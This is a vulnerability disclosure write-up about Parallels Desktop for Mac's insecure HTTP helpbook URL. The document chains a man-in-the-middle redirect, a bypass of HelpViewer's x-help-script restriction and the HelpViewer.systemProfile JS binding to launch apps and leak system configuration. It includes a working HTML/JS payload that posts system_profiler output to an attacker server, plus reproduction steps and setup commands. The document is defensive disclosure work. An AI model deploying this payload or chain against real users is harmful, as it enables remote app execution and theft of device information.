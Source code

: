 # Parallels for Mac: `system_profiler` output leak and launching of arbitrary apps from the web

> What is [Helpviewer.app](https://en.wikipedia.org/wiki/Apple_Help_Viewer)?

<img src="./assets/parallels-helpviewer-firewall.gif" />

## Intro

What's your favorite security bug?
One of my favorite bugs is [GPZ-1040](https://bugs.chromium.org/p/project-zero/issues/detail?id=1040).

## Summary

A remote attacker in a privileged network position can launch arbitrary apps and disclose output of `system_profile` util via `help:` URI that opens `ParallelsDesktopHelp.help`. (`help:openbook=com.parallels.desktop.console.help`)

## Description

Parallels for Mac has a helpbook located at `/Applications/Parallels Desktop.app/Contents/Resources/ParallelsDesktopHelp.help`.
The helpbook URL points to a non-secured HTTP resource

```xml
	<key>HPDBookRemoteURL</key>
	<string>http://download.parallels.com/desktop/v14/docs/</string>
```

As soon as `ParallelsDesktopHelp.help` will be opened via `help:` URI, this URL will be displayed in the HelpViewer's window.

An attacker with MITM access can respond to the HTTP request with own payload.

> Apple has been hardening `HelpViewer.app` for a while. However, during the research, I found certain bypasses/HelpViewer features.

### Attack vector - Network

Attacker can open Parallels helpbook in `HelpViewer.app` by navigating to `help:` URI from the browser when the victim visits a webpage. **Safari** and `Mail.app` allow navigation to `Helpviewer.app` without confirmation from the user.

### State of security in HelpViewer.app

There've been many security issues (~6-7) in HelpViewer since 2003.
HelpViewer was finally hardened after [GPZ-1040](https://bugs.chromium.org/p/project-zero/issues/detail?id=1040).
Also, Apple removed most helpbooks from default macOS installation.

This research covers macOS 10.14.
Need to say, that macOS <10.13 allows HelpViewer to read local files and launch arbitrary files as was shown in the GPZ report.

### x-help-script://

`HelpViewer.app` has `x-help-script://` internal URI scheme that allows running applications and open SystemPreferences panels.
Example: `x-help-script://com.apple.machelp/scpt/OpnAppBndID.scpt?open,com.apple.calculator`.

> In macOS `<10.14` this scheme allows opening files. From my research, this feature was fixed in macOS `10.14`, because `OpnFile.scpt` now is noop in `10.14`.

#### Bypass `x-help-script:` hardening

After the latest patches, HelpViewer disallows triggering `x-help-script:` URI from HTTP resources.
However, the fix is insufficient. Attacker could init server-side redirect from `http://download.parallels.com` to `https://attackerhost` and bypass restrictions, which allows running arbitrary apps on the device.

**Impact**: Attacker can run arbitrary apps after redirect to HTTPS resource

### window.Helpviewer.systemProfile(Array)

HelpViewer's window has `[ObjCRuntime Object]` that is accessible to JS.
This binding is quite unusual. During the audit, I've found more info about this object in sources.

<img src="./assets/HelpViewerObjC1.png">
<img src="./assets/HelpViewerObjC2.png">

The most interesting thing for us is `HelpViewer.systemProfile`.
After playing a while with it I found that this method accepts supplied arguments and set them in `NSTask` object which starts `/usr/sbin/system_profiler` util.

<img src="./assets/system_profile_decompiled.png">

The following command allows attacker to read output of `/usr/sbin/system_profiler -xml -nospawn SPFirewallDataType`:

```js
HelpViewer.systemProfile(["SPFirewallDataType"]);
```

**Impact**: attacker is able to read all system configuration.

### RCE?

As I said, `window.HelpViewer` bindings are poorly written (from security) and it should be possible to find memory corruptions.

> Infinite loop: `HelpViewer.systemProfile({length: -11111})`

## Version

Parallels for Mac: 14.1.0 (45387)
macOS: macOS 10.14.3

## Payload for HelpViewer

Minimal PoC:

```html
<body>
  <h1>@Metnew</h1>
  <script type="text/javascript">
    var a = document.createElement("a");
    a.href = "${payloadLink}";
    a.innerHTML = "Click me!";
    document.body.appendChild(a);
    a.click();

    const result = HelpViewer.systemProfile(["SPFirewallDataType"]);
    fetch("/system", {
      method: "POST",
      body: JSON.stringify({ data: result }),
      headers: {
        Accept: "application/json",
        "Content-Type": "application/json"
      }
    });
  </script>
</body>
```

## PoC for HelpViewer

1. Copy HTML from `payload` variable from `attacker-https/index.js` to any helpbook on your system.
2. Open this helpbook and navigate to this page.

## PoC for Parallels for Mac

> Make `attacker-https/rootCA.pem` and `attacker-https/rootCA-kry.pem` trusted to reproduce on https://127.0.0.1

1. Setup MITM for http://download.parallels.com
2. Victim visits a page (`entrypoint`) that opens `Helpviewer.app`(`help:openbook=com.parallels.desktop.console.help`)
3. `Helpviewer.app` gets opened pointing to http://download.parallels.com (`download.paralles.com` folder)
4. Redirect to any `https://` site (`attacker-https`) to bypass Helpviewer restrictions.
5. `attacker-https` opens Calculator `x-help-script://com.apple.machelp/scpt/OpnAppBndID.scpt?open,com.apple.calculator`
6. Calculator popups
7. Output of `HelpViewer.systemProfile(['SPFirewallDataType'])` gets sent to `attacker-https` server

## PoC Usage

```sh
# make sure you trust certificates in `attacker-https` folder (or you can setup a remote https:// resource)
npm i # install express
# run entrypoint
node ./entrypoint.js
# in a separate window to run download.parallels.com
sudo node download.parallels.com.js
# in a separate window to run attacker-https
node attacker-https.js
# open http://localhost:5000
```

## Impact

Attacker in a privileged network position can run arbitrary apps, read device config via `system_profiler`.

> And likely init memory corruption via unspecified vectors.

## Fix

Just change `http` -> `https` :)
